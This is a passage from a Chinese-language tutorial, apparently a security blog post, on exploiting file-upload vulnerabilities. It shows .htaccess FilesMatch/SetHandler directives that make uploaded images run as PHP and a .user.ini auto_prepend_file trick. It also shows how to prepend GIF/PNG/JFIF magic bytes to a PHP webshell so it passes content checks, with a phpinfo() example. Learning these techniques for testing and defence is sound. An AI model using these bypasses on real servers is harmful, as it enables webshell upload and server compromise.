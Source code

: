 #### 5. 文件攻击
- <b>.htaccess</b>文件攻击  
Apache设置为AllowOverride All时，通过.htaccess文件调用php解析器去解析一个文件名中只要包含"haha"这个字符串的任意文件，无论扩展名是什么(没有也行)，都以php的方式来解析，.haccess文件代码如下：

> ```
<FilesMatch "haha">
SetHandler application/x-httpd-php
</FilesMatch>
```
或者如下，上传一个文件名为evil.gif的图片马：
```
<FilesMatch "evil.gif">
SetHandler application/x-httpd-php
</FilesMatch>
```
或者如下，上传一个后缀为png的图片马：
```
<Files *.png>
SetHandler application/x-httpd-php
</Files>
```

- <b>.user.ini</b>文件攻击  

> ```
只要中间键是以fastcgi运行的php都可以用这个方法，.user.ini能被动态加载，它也有两个配置
项：auto_append_file和auto_prepend_file，只要在.user.ini中添加auto_prepend_file=aa.jpg
这句话，就可以让其他php文件执行前自动包含aa.jpg，和require()类似。
```
{{% fluid_img src="/img/post/upload_vuln_file_attack1.png" alt="上传漏洞-文件攻击1.png" %}}
<br /><br />
{{% fluid_img src="/img/post/upload_vuln_file_attack2.png" alt="上传漏洞-文件攻击2.png" %}}

#### 6. 检测文件内容
- 文件幻数检测  
在文件首部加上如下幻数，后面跟一句话木马即可

> ```
JFIF    FF D8 FF E0 00 10 4A 46 49 46
GIF89a  47 49 46 38 39 61
PNG     89 50 4E 47
```

- 文件相关信息检测  
通常用的getimagesize()函数，只需要在幻数基础上加一些文件信息就行了，如下：

> ```
GIF89a
(...some binary data for image...)
<?php phpinfo(); ?>
(... skipping the rest of binary data ...)
```
